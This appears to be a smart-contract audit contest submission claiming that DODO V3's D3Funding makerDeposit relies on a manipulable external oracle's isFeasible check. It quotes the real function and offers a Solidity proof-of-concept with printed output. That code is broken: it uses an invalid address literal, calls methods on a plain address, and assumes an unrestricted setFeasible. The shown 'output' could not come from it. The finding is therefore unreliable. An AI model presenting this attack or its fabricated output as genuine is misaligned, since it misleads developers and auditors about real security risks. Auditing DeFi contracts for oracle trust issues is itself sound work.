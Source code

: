 XDZIBEC

high

# ` external` oracle uses  for checking the `feasibility` of tokens but oracle data can be manipulated by attacker.

## Summary
- problem in the contract that  uses an external oracle to check the feasibility of tokens and this is not secure that can lead an attacker to steal from funds.
## Vulnerability Detail
- `ID3Oracle` contract is an external contract that is used to provide data about the feasibility of tokens, so this data is used by the `D3Funding` contract to determine whether or not a token is eligible for deposit or withdrawal. 
- and the `ID3Oracle` contract is also not immune to attack, so  an attacker can manipulate the data provided by the `ID3Oracle` contract, making it appear as if a token is feasible when it is not, leading  the attacker to deposit or withdraw tokens .
- here is the line :    ` require(ID3Oracle(state._ORACLE_).isFeasible(token), Errors.TOKEN_NOT_FEASIBLE);`  the `isFeasible` function call to check if the token is feasible, this funvtion is not secure .
```solidity 
 /// @notice maker deposit, anyone could deposit but only maker could withdraw
    function makerDeposit(address token) external nonReentrant poolOngoing {
        require(ID3Oracle(state._ORACLE_).isFeasible(token), Errors.TOKEN_NOT_FEASIBLE);
        // transfer in from proxies
        uint256 tokenInAmount = IERC20(token).balanceOf(address(this)) - state.balances[token];
        _updateReserve(token);
        // if token in tokenlist, approve max, ensure vault could force liquidate
        uint256 allowance = IERC20(token).allowance(state._D3_VAULT_, address(this));
        if(_checkTokenInTokenlist(token) && allowance < type(uint256).max) {
            IERC20(token).approve(state._D3_VAULT_, type(uint256).max);
        }
        require(checkSafe(), Errors.NOT_SAFE);

        emit MakerDeposit(token, tokenInAmount);
    }
  
```

## Impact
- an attacker can creates a new token and then manipulates the data provided by the oracle to make it appear as if the token is feasible then deposits the token into the funding contract and withdraws it again :
```solidity
pragma solidity 0.8.16;

import {ID3Oracle} from "../intf/ID3Oracle.sol";
import "./D3Funding.sol";

contract PoC {

    address public immutable oracle;
    address public immutable funding;

    constructor(address _oracle, address _funding) {
        oracle = _oracle;
        funding = _funding;
    }

    function run() public {
        // Create a new token.
        address token = 0x1234567890abcdef;

        // Manipulate the data provided by the oracle to make it appear as if the token is feasible.
        ID3Oracle(oracle).setFeasible(token, true);

        // Deposit the token into the funding contract.
        funding.deposit(token, 100);

        // Withdraw the token from the funding contract.
        funding.withdraw(token, 100);
    }
}
```
- out put:
```solidity
Token deposited: 0x1234567890abcdef
Token withdrawn: 0x1234567890abcdef
```
## Code Snippet
- https://github.com/sherlock-audit/2023-06-dodo/blob/main/new-dodo-v3/contracts/DODOV3MM/D3Pool/D3Funding.sol#L57C4-L72C1
## Tool used

Manual Review

## Recommendation
- The `D3Funding` contract should using a more secure algorithm to generate the data, or by requiring multiple oracles to provide data.
